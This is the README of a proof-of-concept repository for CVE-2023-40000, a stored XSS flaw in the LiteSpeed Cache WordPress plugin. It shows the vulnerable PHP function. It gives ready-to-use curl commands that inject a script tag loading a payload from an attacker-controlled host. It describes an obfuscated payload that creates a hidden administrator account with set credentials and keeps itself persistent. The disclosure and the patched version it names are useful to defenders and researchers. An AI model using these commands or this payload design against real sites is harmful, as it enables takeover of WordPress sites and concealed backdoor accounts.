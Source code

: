 # LiteSpeed Cache XSS PoC

PoC for XSS vulnerability in the LiteSpeed Cache WordPress plugin allowing elevated privileges. This vulnerability was fixed in version **5.7.0.1** of the plugin, and was assigned [CVE-2023-40000](https://www.cve.org/CVERecord?id=CVE-2023-40000). According to [the plugin's advanced view page](https://wordpress.org/plugins/litespeed-cache/advanced/), about 35% of users are still using a vulnerable version (<5.7.0.1), which adds up to about 1.8M websites.

## Vulnerability Information

Due to lack of input sanitization in the `update_cdn_status` function, (unauthenticated) users are able to send a post request with an infected `_msg` form value that is stored and then displayed in the admin section of WordPress. This can allow anyone to create admin accounts, escalate their privileges, or steal sensitive information by just sending one unauthenticated POST request. The vulnerable function can be found [here](https://github.com/litespeedtech/lscache_wp/blob/v5.5/src/cdn-setup.cls.php#L49-L69) or below, and the `Admin_Display::error` function can be found [here](https://github.com/litespeedtech/lscache_wp/blob/2564cb05b6ba33fbf86fbcb62699dc5d3e28c9ae/src/admin-display.cls.php#L376-L385).

```php
/**
 * Callback for updating Auto CDN Setup status after run
 *
 * @since  4.7
 * @access public
 */
public function update_cdn_status() {

	if ( !isset( $_POST[ 'success' ] ) || !isset( $_POST[ 'result' ] ) ) {
		self::save_summary( array( 'cdn_setup_err' => __( 'Received invalid message from the cloud server. Please submit a ticket.', 'litespeed-cache' ) ) );
		return self::err( 'lack_of_param' );
	}
	if (!$_POST[ 'success' ]) {
		self::save_summary( array( 'cdn_setup_err' => $_POST[ 'result' ][ '_msg' ] ) );
		Admin_Display::error( __( 'There was an error during CDN setup: ', 'litespeed-cache' ) . $_POST[ 'result' ][ '_msg' ] );
	} else {
		$this->_process_cdn_status($_POST[ 'result' ]);
	}

	return self::ok();
}
```

## Proof of Concept

The proof of concept in this repository contains a NodeJS express server designed to obfuscate and deliver the XSS payload, while also capturing incoming pings and data. The payload script showcases the potential actions of attackers exploiting this vulnerability: it creates an admin account with the username "wp-config-user" and password "somepassword123". The XSS payload, which is also disguised as `admin-bar-reloaded.min`, hides the initial XSS popup on load, completely hides the created user in the `users.php` admin page, and repeats the initial POST request to maintain a persistent stored XSS.

### Installation and Usage

1. Install Node.js and npm if they are not already installed.
2. Clone the repository and navigate into the project directory.
3. Run `npm install` to install the dependencies.
4. Start the server with `node index.js`.

### Sending the POST Request

Use the following cURL command to send the POST request to the vulnerable endpoint:

#### Linux:

```bash
curl -X POST "http://localhost/wordpress/wp-json/litespeed/v1/cdn_status" \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "success=0&result[_msg]=<script src=https://your.server/admin-bar-reloaded.min.js></script>"

```

#### Windows:

```cmd
curl -X POST "http://localhost/wordpress/wp-json/litespeed/v1/cdn_status" ^
-H "Content-Type: application/x-www-form-urlencoded" ^
-d "success=0&result[_msg]=<script src=https://your.server/admin-bar-reloaded.min.js></script>"
```

## Disclaimer

The contents of this repository are provided strictly for educational and research purposes. I am not responsible for any misuse or illegal activities stemming from the use of this PoC. On top of this, a warning has been issued on the LiteSpeed Cache plugin page advising all users to update their software due to this known vulnerability. Please ensure your installations are updated to version 5.7.0.1 or later to mitigate this issue.
